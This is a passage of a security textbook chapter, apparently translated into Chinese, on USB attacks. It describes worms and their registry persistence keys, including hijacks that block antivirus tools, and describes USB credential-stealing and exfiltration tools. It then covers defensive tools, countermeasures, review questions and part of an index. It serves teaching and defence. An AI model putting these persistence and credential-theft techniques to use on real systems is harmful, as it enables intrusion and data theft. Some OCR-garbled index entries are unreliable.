- `HKLMSOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\`
- `SHOWALL" CheckedValue" = 0`

## 蠕虫：W32/QQRob-ADN

`W32/QQRob-ADN` 是一种影响 Windows 平台的蠕虫。该蠕虫通过自身复制到可移动存储设备作为隐藏文件 `oeo.exe`，并创建隐藏的 `Autorun.inf` 文件，以便在设备插入时自动启动 `oeo.exe` 来传播。该蠕虫还可能以非字母文件名和 `.plf` 扩展名将自身复制到设备。首次执行该蠕虫时，它会将其自身复制到以下位置：

- `<System>\drivers\conime.exe`
- `<System>\drivers\pnvifx.exe`
- `<System>\jusod1.exe`
- `<System>\severe.exe`

它创建以下文件：

- `<System>\hx1.bat`
- `<System>\jusod1.dll`

`<System>\hx1.bat` 是一个干净的文件，可以很容易地删除。在 `<System>\jusod1.dll` 文件中检测到 `Troj/QQRob-ACM`，而 `Autorun.inf` 文件则被检测为 `W32/QQRob-ADN`。

该蠕虫试图通过修改 `HOSTS` 文件来阻止访问与安全相关的网站。此外，为了在启动时运行 `jusod1.exe` 和 `server.exe`，此蠕虫创建以下注册表项：

- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\"pnvif" = <System>\jusod1.exe`
- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\"jusod1" = <System>\server.exe`

该蠕虫更改以下注册表项，以便在启动时运行 `pnvif.exe` 和 `conime.exe`：

- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\360Safe.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\EGHOST.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\IcSword.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\KrRegEx.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\KV-MonXP.kxp\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\KvDetect.kxp\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\KvXP.kxp\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\MagicSet.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\NOD32.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\PFW.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\PFWLive-Update.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\QQDoctor.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Ras.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Rav.exe\"Debugger" = <System>\drivers\pnvif.exe`


- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\RayMon.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\SREng.EXE\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\TroiDie.kxp\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Wopti-Clean.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\adam.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\avp.com\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\avp.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\iparmo.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\kabaload.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mmsk.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msconfig.com\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msconfig.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\regedit.com\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\regedit.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\runiep.exe\"Debugger" = <System>\drivers\pnvif.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\"Shell" = Explorer.exe <System>\drivers\conime.exe`

## 蠕虫：W32/VBAt-B

W32/VBAt-B 蠕虫影响 Windows 平台。此蠕虫通过即时消息协议和可移动存储设备传播，并且会下载、安装并运行新的软件。该蠕虫试图将自身以 `boot.exe` 文件的形式复制到可用的可移动存储设备。然后，它创建 `Autorun.inf` 以确保在访问该设备时执行此蠕虫。`Autorun.inf` 可以安全删除。

首次运行时，此蠕虫将自身复制到以下文件：
- `<Windows>\lsass.exe`
- `<System>\lsass.exe`

更改以下注册表项以在启动时运行 `lsass.exe`：
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\"Shell" = explorer.exe <System>\lsass.exe`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\"Userinit" = userinit.exe,<System>\lsass.exe`

通过修改以下注册表项下的值来更改 Internet Explorer 设置：
- `HKCU\Software\Microsoft\Internet Explorer\Main\Start Page`

通过设置以下注册表项来禁用系统软件：
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\"DisableRegistryTools" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\"DisableTaskMgr" = 1`
- `HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore\"DisableConfig" = 1`

此蠕虫还设置了以下注册表项：
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\"NoFolderOptions" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\"NoRun" = 1`
- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\"NoFolderOptions" = 1`
- `HKCU\Software\Policies\Microsoft\Internet Control Panel\"Homepage" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\"Hidden" = 2`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\HideFileExt\" = 1`

## Worm: HTTP W32.Drom

HTTP W32.Drom 是一种针对 Windows XP 的蠕虫，它会在受感染的计算机上下载并执行恶意文件，并通过可移动存储设备进行传播。以下是用户为防止进一步损害应采取的措施：
- 应禁用系统还原功能，以防止该蠕虫感染系统。
- 应定期更新杀毒软件。
- 每次感染后，都应对完整系统进行扫描。
- 应删除添加到注册表中的值。这些值包括：
  - `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\ShellExecuteHooks\{09B68AD9-FF66-3E63-636B-B693E2F6236}" = ""`


- `HKEY_CLASSES_ROOT\CLSID\{09B68AD9-FF66-3E63-636B-B693E2F6236}\InProcServer32\@" = "%ProgramFiles%\Internet Explorer\rdrivers.dll"`

- `HKEY_CLASSES_ROOT\CLSID\{09B68AD9-FF66-3E63-636B-B693E2F6236}\InProcServer32\ThreadingModel" = "Apartment"`

## 黑客工具

本节介绍在 USB 攻击过程中可能会使用的黑客工具。

### USBDumper

`USBDumper`是一款应用程序，当安装到系统上时，它会运行一个后台进程，静默地从连接到该系统的任何 USB 闪存驱动器中复制文件。该应用程序非常危险，因为它只需要用户双击可执行文件即可运行。一旦运行，该应用程序会在后台运行，并自动下载连接到系统的任何 USB 驱动器的内容。单独使用此应用程序时可能存在安全风险，但当它与其他工具集成时，风险会增加。黑客正在将其与其他工具（如`USB HackSaw`）和脚本集成，通过加密电子邮件或 FTP 将下载的内容发送到远程位置。图 7-1 展示了`USBDumper`应用程序的界面。

### USB Switchblade

`USB Switchblade`是一个社区项目的成果，该项目合并了各种工具和技术，以利用 Microsoft Windows 的各种安全漏洞，其中大部分与 USB 端口有关。该工具用于从 Windows 系统中静默恢复信息（如密码哈希、`LSA`机密、`IP`信息和浏览器历史记录）、自动填充信息，并为目标系统创建一个后门以便后续访问。该工具揭示了 Windows 中一些非常严重的安全漏洞。

该工具利用了`U3`驱动器中的一个安全漏洞，该漏洞会创建一个虚拟 CD-ROM 驱动器，从而使 Windows `AutoRun`功能得以启动（除非在目标系统上已禁用）。即使未使用`AutoRun`或`U3`驱动器，也可以通过在驱动器上执行单个脚本来启动该应用程序。

该工具最具破坏性的功能是能够从目标系统中提取密码哈希并将其加载到驱动器上，以便稍后通过彩虹表进行破解。Windows `LM`哈希的弱点已经广为人知。只要将安装在该`U3`驱动器上的此应用程序插入系统的开放 USB 端口，心怀不轨的人只需几秒钟就能带走该系统的密码。

该应用程序还可以查找浏览器历史记录（包括 IE 和 Firefox），包括自动填充信息（暴露网站密码和其他信息），以及 AIM 和 MSN Messenger 密码。它还揭示某些应用程序（主要是 Microsoft 应用程序）的产品密钥。该工具还会创建一个幽灵管理员账户，如果系统不在防火墙之后，该账户可以作为系统的后门。


### USB Hacksaw

`USB Hacksaw`是`USB Switchblade`的进化版，它使用`USBDumper`、`Blat`、`Stunnel`和 Gmail 的修改版本，自动感染 Windows 计算机，其载荷会从插入目标机器的 USB 驱动器中检索文档，并安全地将其传输到电子邮件账户。该工具会自动且静默地安装在具有管理员或来宾访问权限的 Windows 2000、XP 或 2003 机器上。一旦安装在目标机器上，它将保持驻留状态，等待插入 USB 闪存驱动器。一旦插入 USB 闪存驱动器，该应用程序会使用修改后的`USBDumper`将驱动器的内容下载到临时位置。然后，它会静默运行位于同一目录下的`send.bat`文件，该文件会归档内容，建立到`smtp.gmail.com`的 SSL SMTP 连接，将下载的数据通过电子邮件发送到电子邮件地址，并删除文档和归档。

## USB 安全工具

本节介绍可用于防止 USB 攻击的 USB 安全工具。

### MyUSBOnly

`MyUSBOnly`通过阻止除受信任设备之外的所有 USB 存储设备来防止数据窃取。这防止了通过拇指驱动器、MP3 播放器、闪存卡和便携式 USB 硬盘复制和传输文件。它会秘密记录有关 USB 设备连接和断开的信息，以及被复制、修改和删除的文件或文件夹。当未授权的 USB 存储设备连接到 PC 时，它会生成电子邮件或 syslog 通知消息。图 7-2 展示了`MyUSBOnly`应用程序的界面。

### USBDeview

`USBDeview`是一个小型实用工具，它列出当前连接到计算机的所有 USB 设备，以及以前使用过的所有 USB 设备。对于每个 USB 设备，`USBDeview`显示详细信息，包括以下内容：

- 设备名称和描述
- 设备类型
- 序列号（对于大容量存储设备）
- 供应商 ID
- 产品 ID
- 添加设备的时间和日期

可以卸载以前使用过的 USB 设备，并断开当前连接的 USB 设备。如果用户以管理员用户身份登录到远程计算机，他或她可以运行该远程计算机上的`USBDeview`。

此实用工具不需要安装过程或额外的 DLL 文件。可执行文件 (`USBDeview.exe`) 被复制到任何文件夹然后运行。`USBDeview`的主窗口显示系统上安装的所有 USB 设备。用户可以选择一个或多个项目，然后断开连接（拔下）它们、卸载它们，或将信息保存为文本、XML 或 HTML 文件。


图 7-2 `MyUSBOnly`允许用户指定哪些 USB 设备是受信任的。

### AutoPlay

`AutoPlay`允许用户根据`Autorun.inf`文件中的命令，自动运行 USB 闪存设备上的文件。用户可以通过选择所需设备并按`F8`手动激活`AutoPlay`功能。或者，用户可以勾选`AutoPlay When Device Is Connected`选项，然后当插入 USB 闪存设备时，`AutoPlay`功能将自动激活。

图 7-3 展示了`USBDeview`实用工具的界面。图 7-4 展示了为选定的 USB 设备显示的详细属性信息。

### USB Blocker

`USB Blocker`与 Active Directory 集成，使系统管理员能够控制远程计算机上的 USB 端口访问。该工具使用内置的组策略机制来强制实施集中式访问控制，因此无需在客户端计算机上安装软件。此控制功能防止对连接至 USB 端口的未授权可移动介质的使用，并支持法规遵从性，例如`SOX`、`GLBA`和`HIPAA`。

图 7-5 展示了`USB Blocker`工具的界面。


**图 7-3** `USBDeview`允许用户选择 USB 设备并对该设备执行某些操作。


**图 7-4** `USBDeview`显示选定设备的详细属性信息。


**图 7-5** `USB Blocker`允许管理员阻止对 USB 端口的访问。


**图 7-6** 这显示了`USB CopyNotify!`通知。

### USB CopyNotify!

`USB CopyNotify!`是一个安全工具，当网络上任何计算机使用了可移动 USB 存储设备时，它会通知系统管理员。它还维护活动日志。通知通过电子邮件和 SMS 发送。

图 7-6 显示了由`USB CopyNotify!`发送的通知。

### Remora USB File Guard

`Remora USB File Guard`将文件和文件夹复制到 USB 存储设备，并动态地加密和压缩这些文件和文件夹。该工具使用强 128 位加密和至少 50% 的压缩率，从而使存储容量加倍。

图 7-7 显示了`Remora USB File Guard`工具的界面。

### Advanced USB Monitor

`Advanced USB Monitor`用于捕获、查看和处理 USB 流量，以调试和测试 USB 设备和软件。它显示发送的数据包，解码描述符，检测外设或驱动中的错误，并测量设备和驱动的性能。该工具使用户能够同时实时监测多个 USB 设备的流量。用户还可以查看、探索和浏览 USB 设备和 USB 驱动器。

图 7-8 展示了高级 USB 监控软件的界面。以下列表描述了图 7-8 中的标签：

- 1. `主菜单栏：`包含用于快速访问程序所有主要功能的项
- 2. `监控窗口：`显示主机与设备之间传输的流量


**图 7-7** 此屏幕显示了 Remora USB 文件保护工具的不同配置选项。


**图 7-8** 高级 USB 端口监控器允许用户实时监控 USB 流量。

- 3. USB 设备窗口：显示所有已连接的设备
- 4. 性能监控窗口：显示设备数据传输性能信息
- 5. 监控窗口中的工具提示
- 6. 任务栏：显示工作区中所有打开窗口的标题
- 7. 状态栏：显示界面元素的提示（如果鼠标指针位于其上）或显示操作进度

## Folder Password Expert USB

Folder Password Expert USB 软件保护文件夹免受未授权访问。它安装在外部或可移动驱动器上，然后将该驱动器连接到计算机。软件从外部或可移动驱动器上的安装目录运行。程序创建文件关联，用户可以使用 Windows 资源管理器中的右键菜单来锁定和解锁文件夹。该软件支持以下可移动介质：

- 闪存驱动器
- USB 密钥/驱动器
- ZIP 和 Jaz 驱动器
- SmartMedia

图 7-9 展示了 Folder Password Expert USB 软件的界面。

## USBlyzer

USBlyzer 提供了用于监控和分析 USB 主机控制器、USB 集线器和 USB 设备内活动的完整视图。

用户可以执行以下操作：

- 查看所有已连接的 USB 设备以及关于每个 USB 设备及其子组件的详细属性信息
- 捕获、解码并显示通过 USB 设备堆栈的重要信息
- 跟踪用户模式应用程序和 USB 设备驱动器用于与 USB 驱动器堆栈通信的 USB 请求


图 7-9 Folder Password Expert USB 允许用户锁定和解锁文件夹。


**图 7-10** USBlyzer 允许用户分析 USB 主机控制器、USB 集线器和 USB 设备。

- 分析 USB 协议和 USB 设备 I/O 活动
- 过滤以从视图中排除非关键信息
- 搜索捕获数据中的特定请求类型
- 将捕获的数据保存为二进制文件以便后续分析
- 将 USB 描述符层次结构和所有捕获的数据导出到文件

图 7-10 展示了适用于 Windows 的 USBlyzer 软件界面。

## USB PC Lock

USB PC Lock 可以安装在 USB 闪存驱动器上，然后将其用作防止未授权使用计算机的钥匙。当闪存驱动器插入计算机时，USB PC Lock 会自动锁定计算机，并在计算机未使用时触发其他操作。可以设置以下操作：

- 未在用时锁定工作站
- 锁定 MSN Messenger
- 停止流媒体流量
- 静音音频
- 启动/停止事件记录器
- 启动/停止批处理文件处理

图 7-11 展示了适用于 Windows 的 USB PC Lock 软件界面。

## Virus Chaser USB

Virus Chaser USB 是一款内置防病毒疫苗软件的 USB 闪存驱动器。因此，它提供数据存储和病毒防护功能。当 Virus Chaser USB 插入计算机时，软件会自动启动并扫描、清除和删除病毒。该软件还提供病毒的实时监控，并通过互联网自动更新保持最新状态。

图 7-12 展示了适用于 Windows 的 Virus Chaser USB 软件界面。


**图 7-11** USB PC Lock 允许用户指定当 USB 设备插入 PC 时执行的操作。


**图 7-12** 这展示了 Virus Chaser USB 设备的初始化过程。

## 对策

可以采取以下措施来防止病毒和蠕虫通过 USB 设备或 USB 攻击进行传播。

- 在 USB 设备内部，使用环氧树脂等整体性涂层来保护组件免受探测和篡改。
- 从 USB 设备的固件中移除所有未使用或不需要的功能。
- 每当可移动存储设备插入计算机时，使用防病毒软件扫描该设备。
- 禁用主机计算机上的 AutoRun 功能。
- 在 Windows 平台上，如果使用组策略，请禁用 USB 端口和 CD-ROM 的使用。

## 章节摘要

USB（通用串行总线）设备是一种外设（物理输入/输出设备），可以插入 USB 端口。

攻击者可能会使用电气攻击、软件攻击或缓冲区溢出攻击，试图利用 USB 驱动器从计算机中提取私密数据或获取管理员访问权限。

病毒和蠕虫利用 USB 设备传播到计算机和网络上。

USB 黑客工具可用于攻击 USB 设备。这些工具可用于静默地从系统上任何连接的 USB 闪存驱动器中复制文件，将下载的内容发送到远程位置，从系统中恢复安全相关信息（如密码）等。

能够识别 USB 设备何时插入主机计算机或其网络的 USB 安全工具可用于防止 USB 攻击。它们可以阻止除受信任设备以外的所有 USB 存储设备；加密和压缩 USB 存储设备中的文件；实施集中式 USB 端口访问控制以防止未经授权的可移动介质连接计算机的 USB 端口；扫描、清除、删除或监控病毒感染；等等。

可以使用对策来防止 USB 攻击，例如禁用 AutoRun，每当 USB 设备插入系统时使用防病毒软件扫描，使用整体性涂层保护组件免受探测和篡改等。

## 复习题

1. 如何使用电气攻击入侵 USB 设备？
2. 解释攻击者如何对 USB 设备使用软件攻击。
3. 如何使用 USB 设备攻击 Windows？
4. 列出通过 USB 设备传播的病毒。
5. 列出针对可移动设备的蠕虫。
6. 列出各种 USB 黑客工具。解释它们的特性。
7. 列出各种 USB 安全工具并解释它们的特性。
8. 可以采取哪些步骤来防止 USB 设备被入侵？

## 动手实践项目

1. 按照以下步骤操作：

    - 导航至学生资源中心的第 7 章。
    - 打开标题为 `u3_technology_v1.0.pdf` 的文档并阅读内容。


*此页有意留白*

### 索引

- **A**

  - AcuS Pen Sentry, 1–26, 1–28, 1–29
  - ActiveSync 攻击, 4–12
  - AddJaiS W, 1–14
  - ADMsmmp, 3–13, 3–14
  - Adore, 1–37
  - 高级入侵检测环境 (AIDE), 1–40–1–41
  - 高级 USB 监控器, 7–15–7–17
  - AIDE (高级入侵检测环境), 1–40–1–41
  - Airs carner, 4–16–4–17
  - Alias, 定义, 1–3
  - 防病毒软件, 手持设备, 4–16–4–18
  - anySLM, 4–11, 4–12
  - AppSnapp, 4–10–4–11

- **B**

  - 后门, 类型, 1–36
  - Bastille Linux, 1–38
  - BeastKit, 1–37
  - BitDefender 移动安全, 4–17
  - BlackBerry, 4–2–4–3, 4–7, 4–18–4–19
  - 黑色夹持, 4–7
  - Bloooer, 5–7
  - BlueAuditor, 5–8, 5–9
  - 蓝牙劫持, 5–3
  - 蓝牙注入, 5–5, 5–6
  - 蓝牙转储, 5–4–5–5
  - BlueFire 移动安全企业版, 5–8
  - 蓝夹持, 5–3
  - BlueKey, 5–7
  - 蓝打印, 5–4
  - 蓝击打, 5–4
  - 蓝嗅探, 5–5
  - 蓝嗅探, 5–3
  - BlueSweep, 5–7, 5–8
  - 蓝牙

    - 针对它的攻击, 5–3–5–5
    - 黑客对策, 5–9–5–10
    - 黑客工具, 5–5–5–7
    - 介绍, 5–2
    - 安全问题, 5–2
    - 为其提供的安全工具, 5–7–5–9
    - 病毒和蠕虫, 5–7

  - 蓝牙网络扫描器, 5–8–5–9
  - BlueWatch, 5–7
  - 僵尸网络, 4–6–4–7
  - 机器人, 4–6–4–7
  - Bradon, 4–13
  - 砖石, 4–6
  - 暴力破解攻击, 3–4, 3–12–3–13
  - BTCrack, 5–6
  - BTKeylogging, 5–4
  - BTScanner, 5–5
  - BTVoiceBugging, 5–4
  - 缓冲区溢出, 6–11
  - BullGuard 移动防病毒, 4–18, 4–19

- **C**

  - Cabir, 5–7


# 索引

## 电缆调制解调器
- 定义, 3–2
- 入侵, 3–11
- 相关工具, 3–19

- Cain and Aben, 3–16
- Carbonite, 1–38
- CDMA (码分多址), 4–4–4–5
- `Chmod` 命令, 1–8
- `Chroot`, 1–14
- Chrootkit, 1–38–1–40
- 思科路由器, 3–8, 3–9
- 思科火炬, 3–17, 3–19
- ClamXav, 2–9–2–10
- 客户端脚本, 6–11
- 码分多址 (CDMA), 4–4–4–5
- 代码执行, 在 Safari 中, 2–3, 2–4
- CoreText 未初始化指针, 2–2
- 构造的 URL 漏洞, 2–2
- 密码学, 6–8

## D
- DDoS 洪水, 4–7
- 拒绝服务 (DoS) 攻击, 3–10, 5–4, 6–7
- 检测与规避, 6–8
- 目录服务, 2–2
- Doombook.A, 4–13–4–14
- DropScan, 2–8
- DSniff 集合, 1–28, 1–29
- DTK (欺骗工具包), 1–38

## E
- Eigpr-tool, 3–17
- 电可擦除可编程只读存储器 (EEPROM), 7–2
- 电磁辐射, 6–6
- `/etc/security`, 1–4

## F
- FileGuard, 2–11, 2–12
- 防火墙
  - 绕过, 3–11–3–12
  - 定义, 1–16, 3–2
  - 在 Linux 中, 1–18–1–20
- 闪存驱动器, 4–4
- Flawfinder, 1–40
- 文件夹密码专家 USB, 7–17
- F-Secure 防病毒, 4–17–4–18

## G
- GCC (GNU 编译器集合), 1–11
- 通用分组无线服务 (GPRS), 4–6
- GetPass, 3–8, 3–9
- 全球移动通信系统 (GSM), 4–5
- GNU 编译器集合 (GCC), 1–11
- GnuPg, 1–41
- GPRS (通用分组无线服务), 4–6
- GSM (全球移动通信系统), 4–5

## H
- 手持设备
  - 防御, 4–14–4–21
  - 入侵, 4–6–4–14
- 手持设备（*续*）
  - 简介，4-2
  - 其中的操作系统，4-4-4-5
  - 类型，4-2-4-4
  - 漏洞，4-5-4-6
- HID 攻击，5-7
- HID 协议，5-7
- 机会性攻击（Hit-and-run attacks），3-11
- HotSync 攻击，4-12-4-13
- `Hping2`，1-30
- HTTP 配置任意管理访问漏洞，3-8
- HTTP w32.Drom，7-11
- Hunt，1-33-1-34，1-35
- `Hydra`，3-12-3-13

## I
- iActivator，4-8, 4-9
- iChat UDP 缓冲区溢出，2-3
- Icon Lock-iT XP，4-18, 4-19
- iDemocracy，4-8
- ifuntastic，4-8-4-9，4-10
- ImageIO 整数溢出，2-2
- ImageIO 内存损坏，2-3
- IMEI（国际移动设备识别码），4-15
- iDependence，4-8, 4-9
- InaTana-A- F-Secure 蠕虫，2-6
- 国际移动设备识别码（IMEI），4-15
- iPhone，4-3, 4-7-4-8，4-11
- iPhoneSimFree，4-11
- IPLog，1-42
- IPNetSentryX，2-10-2-11
- iPod，4-3, 4-4
- `IPTables`，1-18-1-20
- `IPTraf`，1-32-1-33

## J
- 越狱工具，4-8-4-11
- `John the Ripper`，1-18, 3-15, 3-16

## K
- Kaspersky Antivirus Mobile，4-16
- 内核 "pthconfi" 系统调用，2-3
- 内核
  - 定义，1-2
  - 安装、配置和编译，1-9-1-10
  - 补丁安装，1-10-1-11
- 终止开关，6-8
- Kiaxon，1-17
- Knark，1-37
- Knoppix，1-5

## L
- LEO 星座，6-7
- LIDS（Linux 入侵检测系统），1-18, 1-33, 1-34
- Linux
  - 基本操作系统防御，1-21-1-34，1-35
  - 基础知识，1-3-1-9
  - 其中的程序编译，1-11, 1-12
  - 发行版，1-3
  - 其中的防火墙，1-18-1-20
  - 内核的安装、配置和编译，1-9-1-10
  - 简介，1-2-1-3
  - 内核补丁安装，1-10-1-11
  - 可加载内核模块，1-35-1-40
  - 安全对策，1-42-1-43
  - 相关工具，1-40-1-42
  - 漏洞，1-12-1-18
- Linux 入侵检测系统（LIDS），1-18
- Linux 根目录套接字，1-36-1-37
- Linux 安全审计工具（LSAT），1-42
- 可引导 CD，1-4-1-5
- Logsurf，1-42
- LSAT（Linux 安全审计工具），1-42
- LSOF，1-30, 1-32

## M
- Mabir，5-7
- Mac OS X
  - 其中的防病毒应用程序，2-7-2-9
  - 针对它的对策，2-12-2-13
  - 简介，2-1-2-2
  - 相关安全工具，2-9-2-11，2-12
  - 漏洞，2-2-2-5
  - 其中的蠕虫和病毒，2-5-2-7
- 宏病毒，2-6-2-7
- MacScan，2-9, 2-10
- `Make` 文件，1-11
- 格式错误的安装包，Mac OS X 及相关事项，2-4-2-5
- 恶意软件，4-5, 4-6-4-7, 6-9-6-11
- 中间人攻击，5-3-5-4
- Man 手册页，1-7
- 主会话密钥（MSK），5-3
- McAfee VirusScan for Mac，2-7, 2-8
- McAfee VirusScan Mobile，4-18, 4-19
- 移动电话，4-2。*另见* 手持设备
- MP3 播放器，4-4
- MRTG（多路由器流量图形工具），1-41
- MSK（主会话密钥），5-3
- 多路由器流量图形工具（MRTG），1-41
- MyUSBOnly，7-12, 7-13

## N
- Nemesi s，1-30, 1-31
- Nessus，1-16
- Netcat，1-22
- Netfilter，1-19
- Nmap，1-15-1-16
- Norton Internet Security，2-9
- Ntop，1-42

## O
- OneStep: ZUP，3-19
- OpenSSH/SSH，1-41
- 操作系统


### Linux
- `Linux`，1-21-1-34，1-35

### 移动电话中的
- `移动电话中的`，4-4-4-5

### Symbian
- `Symbian`，4-5

### Windows Mobile
- `Windows Mobile`，4-4-4-5

### OSX/Leap-A 蠕虫
- `OSX/Leap-A` 蠕虫，2-5-2-6

## P

- `Packer "mistreaming"` 攻击，3-11
- `配对`，5-2
- `Palm (Garner) OS`，4-4
- `密码破解`
  - 在 `Linux` 中，1-18
  - 相关工具，3-15-3-16
- `掌上电脑`，4-2, 4-12-4-13, 4-19-4-20。*另见* 手持设备
- `渗透测试工具`，3-17-3-19
- `外设`，定义，7-2
- `持续性攻击`，3-11
- `皮可网`，5-2
- `Podloso`，4-14
- `端口`，定义，1-3-1-4
- `端口扫描`，检测工具，1-16-1-18
- `PortSentry`，1-17

## R

- `射频识别（RFID）`。*见* `RFID（射频识别）`
- `Ramen`，1-37
- `Remora USB` 文件卫士，7-15, 7-16
- `重放攻击`，6-7
- `RFDump`，6-11
- `支持 RFID 的信用卡`，6-8
- `RFID 利用漏洞`，6-11
- `RFID Guardian`，6-8-6-9
- `RFID（射频识别）`，6-2
  - `冲突`，6-3-6-4
  - `避免攻击的对策`，6-8-6-9
  - `简介`，6-2
  - `恶意软件`，6-9-6-11
  - `RFD` 黑客工具，6-11
  - `风险`，6-4-6-7
  - `安全`，6-15
  - `安全和隐私威胁`，6-7-6-8
  - `安全控制`，6-11-6-15
  - `系统组件`，6-2-6-3
- `RFID 读卡器冲突`，6-4
- `RFID 系统`，6-2
- `RFID 标签`，6-2
- `RFID 标签天线`，6-3
- `RFID 标签冲突`，6-3
- `RKdet`，1-38
- `Root`，定义，1-3
- `Rootkit Hunter`，1-38
- `根目录套接字`，1-35
- `路由器`
  - `访问`，3-2-3-7
  - `分析工具`，3-15
  - `针对它的攻击`，3-8-3-11
  - `定义`，3-2
  - `识别工具`，3-13-3-15
  - `渗透测试工具`，3-17-3-19
  - `漏洞扫描`，3-7-3-8
- `路由表投毒`，3-10
- `RSA 阻塞标签`，6-8
- `Rscan`，1-38

## S

- `Safari`，其中的代码执行漏洞，2-3, 2-4
- `SAINT`，1-24, 1-26, 1-27
- `Saint Jude`，1-38
- `SARA（安全审计员研究助理）`，1-21-1-22
- `Scan & Clean for DropScan`，2-8
- `ScanLog`，1-17
- `Secure Linux 项目`，1-38
- `安全审计员研究助理（SARA）`，1-21-1-22
- `Setuid 程序`，1-35
- `短消息服务（SMS）`，4-6
- `短配对码攻击`，5-3
- `签名授权工具`，4-18-4-19
- `SIM 锁`，4-15
- `SIM（用户识别模块）卡`，4-8
- `SING`，3-13-3-15
- `Skulls`，4-13
- `SLCheck`，3-7
- `Slurpie`，1-18
- `智能手机`，4-2-4-3
- `SMobile VirusGuard`，4-17
- `SMP（对称多处理）`，2-2
- `SMS（短消息服务）`，4-6
- `嗅探`，6-7
- `Sniffit`，1-30, 1-31
- `Snort`，1-23-1-24, 1-25
- `SolarWinds MIB 浏览器`，3-15
- `Sophos Endpoint Security and Control`，2-7, 2-9
- `欺骗`，6-7
- `Sprite Terminator`，4-20, 4-21
- `间谍软件`，4-6
- `SQL 注入`，6-11
- `Stunnel`，1-41
- `用户识别模块（SIM）卡`，4-8
- `Swatch`，1-41
- `Symantec AntiVirus`，4-17, 4-18
- `Symbian 操作系统`，4-5
- `SymbOS/ITool-SMSRender.A.intd`，4-7
- `SymbOS/MultiDropper.CG`，4-7
- `对称多处理（SMP）`，2-2

## T

- `T0rn`，1-37
- `标签读取器`，6-2
